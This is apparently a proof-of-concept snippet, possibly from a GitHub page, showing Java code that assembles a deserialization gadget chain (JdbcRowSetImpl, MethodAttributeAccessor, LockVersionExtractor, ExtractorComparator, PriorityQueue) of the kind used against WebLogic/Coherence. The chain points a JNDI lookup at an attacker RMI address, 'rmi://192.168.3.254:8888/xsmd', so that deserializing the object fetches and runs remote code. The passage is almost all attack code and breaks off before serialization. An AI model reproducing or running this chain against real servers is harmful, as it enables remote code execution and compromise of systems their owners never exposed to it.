 POC
---

            // JdbcRowSetImpl
            JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
            jdbcRowSet.setDataSourceName("rmi://192.168.3.254:8888/xsmd");

            MethodAttributeAccessor methodAttributeAccessor = new MethodAttributeAccessor();
            methodAttributeAccessor.setGetMethodName("getDatabaseMetaData");
            methodAttributeAccessor.setIsWriteOnly(true);
            methodAttributeAccessor.setAttributeName("UnicodeSec");


            LockVersionExtractor extractor = new LockVersionExtractor(methodAttributeAccessor, "UnicodeSec");

            final ExtractorComparator comparator = new ExtractorComparator(extractor);
            final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);


            Object[] q = new Object[]{jdbcRowSet, jdbcRowSet};
            Reflections.setFieldValue(queue, "queue", q);
            Reflections.setFieldValue(queue, "size", 2);

            Field comparatorF = queue.getClass().getDeclaredField("comparator");
            comparatorF.setAccessible(true);
            comparatorF.set(queue, new ExtractorComparator(extractor));